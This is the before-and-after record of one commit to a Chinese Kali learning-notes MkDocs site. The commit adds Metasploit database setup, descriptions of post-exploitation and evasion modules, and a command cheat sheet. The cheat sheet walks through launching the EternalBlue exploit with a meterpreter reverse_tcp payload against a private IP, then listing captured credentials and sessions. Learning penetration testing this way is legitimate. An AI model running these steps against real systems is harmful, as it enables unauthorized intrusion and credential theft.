

Before and after one commit to Keybird0/Kali-learning-notes, an MkDocs documentation site: the page built from docs/013-Metasploit/01-Metasploit简介.md, in a window 1280 px wide and 1400 px high, scrolled down 2369 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2877 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
从 Wiki 回同步增强内容至 MkDocs
- 法律法规：新增《网络安全漏洞管理规定》（2021）
- Metasploit：新增 msfdb init、Evasion 模块、常用命令速查
- owasp-Zap：新增 Docker 安装、CLI 用法、与 Burp Suite 对比表
- Web 渗透简介：新增 OWASP Top 10 (2021)、HTTP 协议、安全头、学习资源

Made-with: Cursor

````diff
--- a/docs/013-Metasploit/01-Metasploit简介.md
+++ b/docs/013-Metasploit/01-Metasploit简介.md
@@ -18,8 +18,19 @@
 ## 0x02 Metasploit Framework
 > Metasploit的版本之一, 默认集成在Kali中
 
-- 使用postgresql数据库进行数据的存储.
-  > 早期版本需要先启动数据库再启动msf，现代 Kali 已自动配置
+- 使用 PostgreSQL 数据库进行数据存储
+  > 现代 Kali 中已预配置数据库，首次使用时初始化即可：
+
+```shell
+# 初始化数据库（只需执行一次）
+sudo msfdb init
+
+# 启动 msfconsole
+msfconsole
+
+# 在 msf 中检查数据库连接
+msf6 > db_status
+```
 
 ```mermaid
 flowchart TB
@@ -88,3 +99,42 @@ Ruby扩展库是框架的基本组件，它包含各种可以由底层或其他
 
 ##### 辅助模块
 辅助模块为信息检索提供各种扫描程序。其中包括登录扫描器、漏洞扫描器、网络嗅探和端口扫描器。
+
+##### 后渗透模块 (Post)
+
+用于在获取目标系统 session 后执行进一步操作：信息收集、提权、持久化、横向移动等。
+
+##### 规避模块 (Evasion)
+
+Metasploit 5+ 引入的模块类型，用于生成能绕过安全防护的载荷。
+
+## 0x03 常用命令速查
+
+```
+# 搜索模块
+msf6 > search type:exploit platform:windows smb
+msf6 > search cve:2021-44228    # 按 CVE 编号搜索
+
+# 使用模块
+msf6 > use exploit/windows/smb/ms17_010_eternalblue
+msf6 exploit(ms17_010_eternalblue) > show options
+msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
+msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
+msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
+msf6 exploit(ms17_010_eternalblue) > exploit
+
+# 工作区管理（多目标测试时有用）
+msf6 > workspace -a project1    # 创建工作区
+msf6 > workspace project1       # 切换工作区
+msf6 > workspace -l             # 列出所有工作区
+
+# 数据库查询
+msf6 > hosts                    # 查看已发现主机
+msf6 > services                 # 查看已发现服务
+msf6 > vulns                    # 查看已发现漏洞
+msf6 > creds                    # 查看已获取凭据
+
+# Session 管理
+msf6 > sessions -l              # 列出所有 session
+msf6 > sessions -i 1            # 进入 session 1
+```
````
Also changed, not shown: docs/000-前言/00-法律法规.md (+27 -0 lines), docs/008-Web渗透/01-基础知识/01-web渗透简介及基础知识.md (+41 -1 lines), docs/008-Web渗透/03-扫描工具/06-owasp-Zap.md (+42 -8 lines).
